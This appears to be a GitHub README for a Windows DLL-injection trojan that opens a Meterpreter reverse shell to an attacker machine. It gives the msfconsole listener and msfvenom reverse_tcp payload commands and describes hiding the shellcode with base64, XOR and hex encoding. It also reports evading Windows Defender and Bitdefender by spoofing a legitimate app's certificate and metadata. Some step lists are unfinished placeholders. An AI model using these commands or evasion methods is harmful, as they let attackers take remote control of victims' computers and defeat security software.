 # Remote Dll injector Trojan
Trojan using dll injection of a custom library that spawns a shell on a target machine, undetected by Windows defender and Bitdefener

# 💻 Code

<img align="right" src="media/a1.png" width="440" />

This malware injects a malicious library into a target process or directly creates a process and uploads the library into it, the dll contains a simple encoded base64 data that spawns a reverse shell.

### 0) Listener

- First i used the classic multi handler exploit to run the payload: 
``` msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost XXX; set lport XXX; exploit" ```

- The payload is a simple base64 shellcode, it's reccomended to use shigata_ga_nai alternatives since its easy to detect:
``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=XXX LPORT=XXXX  -e x86/shikata_ga_nai -f c  ```. 

### 0.1) Encrypter:

- First we encode binary data into Base64, try to use a custom base64_chars set instead of the standard Base64 alphabet to obfuscate more;
- Secondly we apply XOR encryption using a single-byte key; 
- Then we convert it into its hexadecimal string representation and we get the final encrypted shellcode.

### 1) DLL
The malicious library contains 4 different call cases, process attach/detach, and thread create/delete, the best one is in my opinion the first one. When the library is attached to the process, it decodes the base64 encoded data and uploads it to memory. Once uploaded, the data holding the shellcode will start the reverse shell with the attacker machine.  

### 2) Local Injection

The local injection takes the dynamic library which is already located into the disk (basically useless, just a sample), creates a process and injects the library into it. Here is a detailed explanation: 

- aaa
- bbb
- ccc

### 3) Remote Injection

The remote injection dumps the dynamic library into disk (might get detected tho as anything that gets written into disk is automathically scanned by the antivirus), looks for a specific process and injects the library into it. Here is a detailed explanation: 

- aaa 
- bbb
- ccc


# 🛡 Obfuscation and AV Detection 

<img align="right" src="media/av1.png" width="340" />

Both coes are undetected by Windows defender, but the local injection is detected by 10 antiviruses. Using a simple certificate and metadata manager like Process Hacker (free an open source) i uploaded the data of a common app (in my case it was github desktop setup) and the AVs went from 10 to 1 in an instant, and for the first time Bitdefender didn't flag it as suspicious 😀!!! The file went from a few kilobytes to like 100mb tho so i think i'll have to work on that, maybe by embedding only the essential metadata and certificates.


<img align="left" src="media/av4.png" width="440" />
